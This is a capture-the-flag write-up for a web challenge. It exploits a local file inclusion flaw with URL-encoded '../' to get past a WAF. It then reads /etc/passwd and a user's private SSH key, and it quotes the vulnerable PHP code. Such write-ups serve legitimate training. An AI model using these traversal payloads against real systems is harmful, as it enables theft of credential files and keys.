






# O2.2: Friendly Files
**Objective:** Exploit LFI vulnerability to retrieve sensitive data.

**Difficulty:** Medium (300 points)

**Category:** LFI, Web Exploitation

## Materials and References
- **Provided:**
    - Link: Community Repsonse Network
    - Credentials:
        - Username: `WICYS2025`
        - Password: `R4v!T7xQ#n2Lk8Zm`
- **Tools Used:**
    - Web Browser
- **References:**
    - [OWASP: Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
    - [File Inclusion](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html)

## Flag Format
FLAG{...}

## Write-Up

The provided credentials were used to log into the Community Repsonse Network website.

<p align="center">
  
</p>

The URL contains a `GET` parameter `?page=`:
> `https://target-letsrebuild.chals.io/?page=index.php`

Initally tested for potential URL manipulation with `/`:
```bash
https://target-letsrebuild.chals.io/?page=/
```

Instead of listing the the root directory contents, the page displayed `/app//` and a title called `File Viwer`. 
> Target: `/app//`

<p align="center">
  
</p>

Path traversial was tested next using `../`:
```bash
https://target-letsrebuild.chals.io/?page=../
```

The request is blocked by WAF policy.
> Web Application Firewall: Detected "../" in path!

<p align="center">
  
</p>

Encoding was needed to bypass the WAF policy. The encoding of `../` is `%2e%2e%2f`:
```Bash
https://target-letsrebuild.chals.io/?page=%2e%2e%2f
```

The encoded traversal successfully bypasses the WAF allowing fileystem access. Since the title is `File Viewer` and the directory contents was not displayed, focused was placed on reading files.

<p align="center">
  
</p>

Next, tested if files could be read by requesting common known files, such as `/etc/passwd`:
```Bash
https://target-letsrebuild.chals.io/?page=%2e%2e%2fetc/passwd
```

<p align="center">
  
</p>

Multiple attempts were made to find the flag by reading files in directories, including:
- `/etc`
- `/home`
- `/usr`
- `/`

A file named `server.php` was found, which explained how the `page` parameter worked.
```Bash
https://target-letsrebuild.chals.io/?page=server.php
```

Files that are not in a small whitelist are handled using `file_get_contents()`, with their contents only being displayed, not executed. This vulnerability allows for **Local File Inclusion (LFI)** for reaidng files but prevents Remote Code Execution (RCE.)

Relevant section of `service.php`:
```PHP
// Known pages to include; otherwise treat as read
$render_mode = 'read';
$allowed_pages = ['index.php', 'about.php', 'community.php', 'facts.php', 'statistics.php', 'voulenteer.php', 'FAQ.php'];
if (in_array(basename($eff), $allowed_pages, true) && is_file(__DIR__ . '/' . basename($eff))) {
  $render_mode = 'include';
}

...

<main class="wrap">
  <section class="panel card">
    <?php if ($warning): ?>
      <div class="waf" role="status" aria-live="polite">
        <div class="waf-msg"><?php echo h($warning); ?></div>
      </div>
    <?php endif; ?>

    <?php if ($blocked): ?>
      <h1 class="title">Request Blocked</h1>
      <div class="path">Target: <code>(blocked before filesystem access)</code></div>
      <pre class="pre err">[blocked] Request blocked by WAF policy.</pre>
    <?php else: ?>
      <?php if ($render_mode === 'include'): ?>
        <?php include __DIR__ . '/' . basename($eff); ?>
      <?php else: ?>
        <h1 class="title">File Viewer</h1>
        <div class="path">Target: <code><?php echo h($target); ?></code></div>
        <?php
          $data = @file_get_contents($target);
          if ($data === false) {
            echo '<pre class="pre err">[error] Unable to read file.</pre>';
          } else {
            echo '<pre class="pre">'.h(substr($data, 0, 200*1024)).'</pre>';
          }
        ?>
      <?php endif; ?>
    <?php endif; ?>
  </section>
</main>
```

<p align="center">
  
</p>

A hint emphasized **private keys**, so the focus shifted to investigating files related to private keys.

From the reference, a section mentions private keys via ssh:
> If ssh is active check which user is being used (/proc/self/status & /etc/passwd) and try to access <HOME>/.ssh/id_rsa

From `/etc/passwd`, the users were listed as:
```Bash
salvador:x:1000:1000::/home/salvador:/usr/sbin/nologin
lilith:x:1001:1001::/home/lilith:/usr/sbin/nologin
maya:x:1002:1002::/home/maya:/usr/sbin/nologin
zero:x:1003:1003::/home/zero:/usr/sbin/nologin
axton:x:1004:1004::/home/axton:/usr/sbin/nologin
```

Typically when listing a directory, the File Reader content is blank and wihtout an error message. However, when lsiting `/home/{user}`, there is an error saying unable to read.

Initially tested all users for `<HOME>/.ssh/id_rsa`, but the file did not exist. It is supected that the private key may not be named `id_rsa`.

Iterated through usernames and private key combainations and found the correct combainaiton at `/home/zero/.ssh/id_ed25519`, continaing the flag:
```Bash
https://target-letsrebuild.chals.io/?page=%2e%2e%2fhome/zero/.ssh/id_ed25519
```

**Flag**: FLAG{YouFoundThePrivateKey!}

<p align="center">
  
</p>